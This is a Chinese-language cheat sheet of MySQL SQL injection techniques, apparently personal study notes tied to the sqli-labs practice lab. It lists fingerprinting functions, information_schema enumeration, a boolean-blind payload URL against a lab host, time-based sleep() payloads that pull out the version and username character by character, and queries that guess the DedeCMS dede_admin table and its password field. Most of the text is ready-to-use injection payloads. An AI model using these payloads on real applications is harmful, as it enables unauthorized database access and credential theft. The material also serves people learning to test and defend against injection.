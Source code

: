 # sql注入常用语句

select @@VERSION || version()   : 查询数据库版本
user()  :    返回当前数据库连接使用的用户
database()  :    返回当前数据库连接使用的数据库
concat  :   返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。
concat_ws   :     concat_ws的第一个参数是连接字符串的分隔符，concat_ws(char(32,58,32),user(),database(),version())
char()  :   mysql的char函数将十进制ASCII码转化成字符
@@datadir   :   读取数据库路径
@@basedir MYSQL :   获取安装路径
show variables like '%secure%' :   查询是否多mysql导出做限制
@@version_ compile_ os  :   操作系统版本

## 双注入查询需要理解四个函数/语句
1. Rand() //随机函数
2. Floor() //取整函数
3. Count() //汇总函数
4. Group by clause //分组语句

盲注需要掌握一些MySQL的相关函数：
length(str)：返回str字符串的长度。
substr(str, pos, len)：将str从pos位置开始截取len长度的字符进行返回。注意这里的pos位置是从1开始的，不是数组的0开始
mid(str,pos,len):跟上面的一样，截取字符串
ascii(str)：返回字符串str的最左面字符的ASCII代码值。
ord(str):同上，返回ascii码
if(a,b,c) :a为条件，a为true，返回b，否则返回c，如if(1>2,1,0),返回0

首先要记得常见的ASCII，A:65,Z:90 a:97,z:122,  0:48, 9:57

首先select database()查询数据库
ascii(substr((select database()),1,1))：返回数据库名称的第一个字母,转化为ascii码
ascii(substr((select database()),1,1))>64：ascii大于64就返回true，if就返回1，否则返回0



## url编码
```
‘#’ url编码后就是%23
‘ ’ url编码后就是%20
‘'’ url编码后就是%27
```
## information_schema数据库
```
information_schema数据库是MySQL系统自带的数据库，它提供了数据库元数据的访问方式。information_schema就像是MySQL实例的一个百科全书，记录了数据库当中大部分我们需要了结的信息，比如字符集，权限相关，数据库实体对象信息，外检约束，分区，压缩表，表信息，索引信息，参数，优化，锁和事物等等。通过information_schema我们可以窥透整个MySQL实例的运行情况，可以了结MySQL实例的基本信息，甚至优化调优，维护数据库等，可以说是真正的一部百科全书。

information_schema数据库表说明:
-----重要
SCHEMATA表:储存mysql所有数据库的基本信息，包括数据库名，编码类型等，show databases的结果取之此表。
TABLES表：储存mysql中的表信息（包括视图）。详细表述了（数据库名这一列，这样才能找到哪个数据库有哪些表嘛）某个表属于哪个schema，表类型，表引擎，表有多少行,创建时间等信息。是show tables from schemaname的结果取之此表。
COLUMNS表：提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息（包括数据库名和表名称这两列）。是show columns from schemaname.tablename的结果取之此表。
--------

STATISTICS表：提供了关于表索引的信息。是show index from schemaname.tablename的结果取之此表。
USER_PRIVILEGES（用户权限）表：给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表。
SCHEMA_PRIVILEGES（方案权限）表：给出了关于方案（数据库）权限的信息。该信息来自mysql.db授权表。是非标准表。
TABLE_PRIVILEGES（表权限）表：给出了关于表权限的信息。该信息源自mysql.tables_priv授权表。是非标准表。
COLUMN_PRIVILEGES（列权限）表：给出了关于列权限的信息。该信息源自mysql.columns_priv授权表。是非标准表。
CHARACTER_SETS（字符集）表：提供了mysql实例可用字符集的信息。是SHOW CHARACTER SET结果集取之此表。
COLLATIONS表：提供了关于各字符集的对照信息。
COLLATION_CHARACTER_SET_APPLICABILITY表：指明了可用于校对的字符集。这些列等效于SHOW COLLATION的前两个显示字段。
TABLE_CONSTRAINTS表：描述了存在约束的表。以及表的约束类型。
KEY_COLUMN_USAGE表：描述了具有约束的键列。
ROUTINES表：提供了关于存储子程序（存储程序和函数）的信息。此时，ROUTINES表不包含自定义函数（UDF）。名为“mysql.proc name”的列指明了对应于INFORMATION_SCHEMA.ROUTINES表的mysql.proc表列。
VIEWS表：给出了关于数据库中的视图的信息。需要有show views权限，否则无法查看视图信息。
TRIGGERS表：提供了关于触发程序的信息。必须有super权限才能查看该表
 
```
## 查看数据库的长度
```
http://192.168.1.102/sqli/Less-8/index.php?id=1'  and if(length(database())=8, 1, 0) %23  
```





## 延迟注入
```
延迟注入：
select id from links where id=1 and sleep(5);

延迟注入获取长度：
//延迟注入，如果mysql的版本长度等于 11，就延迟5秒显示；
select id from links where id=1 and sleep(  if( length(( select @@version )) = 11,5,0 ) );

判断用户的第一个字符的asc码是多少：
//延迟注入" sleep "，如果 用户的名字第一个长度" ORD( mid( ( select user() ),1,1)) "
select id from links where id=1 and sleep(  if( ( ORD( mid( ( select user() ),1,1)) ) = 11,5,0 ) );
```




猜表一般的表的名称:存在返回数据
SELECT * FROM `dede_admin` WHERE 1 AND 0 <> ( SELECT count( * ) FROM dede_admin ) LIMIT 0 , 30

猜表数目：通过大小与判断，真返回数据
SELECT * FROM `dede_admin` WHERE 1 AND 2 > ( SELECT count( * ) FROM dede_admin ) LIMIT 0 , 30

猜解字段中有几个数据
SELECT * FROM `dede_admin` WHERE 1 and 1<(select count(*) from `dede_admin` where LENGTH(`pwd`)>0)

